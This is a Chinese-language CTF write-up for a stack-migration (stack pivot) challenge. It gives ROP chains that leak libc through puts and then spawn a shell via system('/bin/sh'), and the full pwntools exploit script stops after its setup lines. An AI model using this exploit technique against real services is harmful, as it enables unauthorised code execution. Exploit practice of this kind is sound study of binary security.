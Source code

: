 ### 利用 ###

#### 1.将fake_frame写到RW段 ####

执行两次leave ret跳转到rwadddr

```python
rop = offset * "a"
rop += p32(rwaddr) # fake ebp
rop += p32(read_plt) # retn_addr
rop += p32(leaveret) # retn_addr of read
rop += p32(0) # arg1
rop += p32(rwaddr) # arg2
rop += p32(0x100) # arg3

```

#### 2.leak libc ####

执行两次leave ret跳转到rwaddr+0x100

```python
rop += p32(rwaddr + 0x100) # fake ebp
rop += p32(puts_plt) # retn_addr
rop += p32(pop1) # adjust stack to next part chain of rop
rop += p32(elf.got['__libc_start_main']) # arg1
rop += p32(read_plt) # call read
rop += p32(leaveret) # retn_addr of read
rop += p32(0) # arg1
rop += p32(rwaddr + 0x100) # arg2
rop += p32(0x100) # arg3

```

#### 3.RCE ####

rwaddr+0x100处直接getshell

```python
rop = p32(rwaddr)
rop += p32(system)
rop += p32(0xdeadbeef)
rop += p32(binsh)

```

完整exp如下：

```python
from pwn import *
# from LibcSearcher import *

libc = ELF("/lib/i386-linux-gnu/libc.so.6")
context.log_level = "debug"
elf = ELF("./migration")
p = process("./migration")

offset = 0x28
popebp = 0x0804856b
ret = 0x08048356
leaveret = 0x08048418
rwaddr = 0x0804b000-0x300
# 0x0804836d : pop ebx ; ret
pop1 = 0x0804836d
read_plt = elf.plt['read']
puts_plt = elf.plt['puts']

p.recvuntil(" :\n")
```